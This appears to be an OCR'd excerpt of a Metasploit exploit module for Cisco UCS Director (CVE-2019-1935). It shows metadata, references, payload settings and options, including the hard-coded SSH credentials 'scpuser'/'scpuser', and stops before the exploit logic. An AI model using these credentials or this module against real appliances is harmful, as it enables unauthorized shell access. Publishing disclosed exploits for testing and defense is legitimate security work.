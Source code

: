 ```
        has the password of 'scpuser', and allows an attacker to login to the virtual appliance
        via SSH.
        This module  has been tested with Cisco UCS Director virtual machines 6.6.0 and 6.7.0.
        Note that Cisco also mentions in their advisory that their IMC Supervisor and
        UCS Director Express are also affected by these vulnerabilities, but this module
        was not tested with those products.
      },
      'License'        => MSF_LICENSE,
      'Author'         =>
        [
          'Pedro Ribeiro <pedrib[at]gmail.com>'        # Vulnerability discovery and Metasploit module
        ],
      'References'     =>
        [
          [ 'CVE', '2019-1935' ],
          [ 'URL', 'https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20190821-imcs-usercred' ],
          [ 'URL', 'https://seclists.org/fulldisclosure/2019/Aug/36' ],
          [ 'URL', 'https://raw.githubusercontent.com/pedrib/PoC/master/advisories/Cisco/cisco-ucs-rce.txt' ]
        ],
      'DefaultOptions'  =>
        {
          'EXITFUNC' => 'thread'
        },
      'Payload'        =>
        {
          'Compat' => {
            'PayloadType'    => 'cmd_interact',
            'ConnectionType' => 'find'
          }
        },
      'Platform'       => 'unix',
      'Arch'           => ARCH_CMD,
      'Targets'        =>
        [
          [ 'Cisco UCS Director < 6.7.2.0', {} ],
        ],
      'Privileged'     => false,
      'DefaultTarget'  => 0,
      'DisclosureDate' => '2019-08-21'
    ))

    register_options(
      [
        Opt::RPORT(22),
        OptString.new('USERNAME', [true,  "Username to login with", 'scpuser']),
        OptString.new('PASSWORD', [true,  "Password to login with", 'scpuser']),
      ], self.class
    )

    register_advanced_options(
      [
        OptBool.new('SSH_DEBUG', [false, 'Enable SSH debugging output (Extreme verbosity!)', false]),
        OptInt.new('SSH_TIMEOUT', [false, 'Specify the maximum time to negotiate a SSH session', 30])
      ]
    )
  end

  def rhost
```